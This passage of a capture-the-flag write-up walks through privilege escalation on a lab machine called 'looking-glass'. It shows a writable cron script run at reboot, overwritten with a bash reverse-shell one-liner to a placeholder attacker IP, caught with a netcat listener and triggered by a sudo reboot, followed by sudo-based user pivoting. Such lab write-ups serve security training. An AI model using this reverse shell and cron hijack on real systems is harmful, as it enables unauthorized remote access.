 After logging in as *jabberwocky* the user flag can be found in */home/jabberwocky/user.txt* as reversed string. Using `rev` will reverse the reversed flag.

## Root.txt

Some manual enumeration results:

[+] Doing `sudo -l` reveals */sbin/reboot* can be used by user *jabberwocky*.

[+] Checking directory */etc/sudoers.d/* we have a file with name *alice* and owner being *alice*.

[+] Checking contents of */etc/crontab* reveals something:
```bash
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

The script *twasBrillig.sh* is owned and writable by *jabberwocky*. Changing the contents of *twasBrillig.sh* file to get a reverse shell.

```bash
bash -i >& /dev/tcp/<attacker-IP>/<port> 0>&1
```

Make sure to start a `netcat` listener on the attackers machine. After this just reboot the system using:

```bash
sudo /sbin/reboot
```

After the box is rebooted we get a reverse shell back as user *tweedledum*. Checking `sudo -l` and we get the following:

```bash
$ sudo -l
Matching Defaults entries for tweedledum on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tweedledum may run the following commands on looking-glass:
    (tweedledee) NOPASSWD: /bin/bash
```

Switching to tweedledee and checking `sudo -l` we get the following:

```bash
$ sudo -l
Matching Defaults entries for tweedledee on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tweedledee may run the following commands on looking-glass:
    (tweedledum) NOPASSWD: /bin/bash
```

Damn... this is just going back and forth. Going back to being user *tweedledum* and checking the contents of the file poem.txt

```bash
cat poem.txt
     'Tweedledum and Tweedledee
      Agreed to have a battle;
     For Tweedledum said Tweedledee
      Had spoiled his nice new rattle.

     Just then flew down a monstrous crow,
      As black as a tar-barrel;
     Which frightened both the heroes so,
      They quite forgot their quarrel.'
```
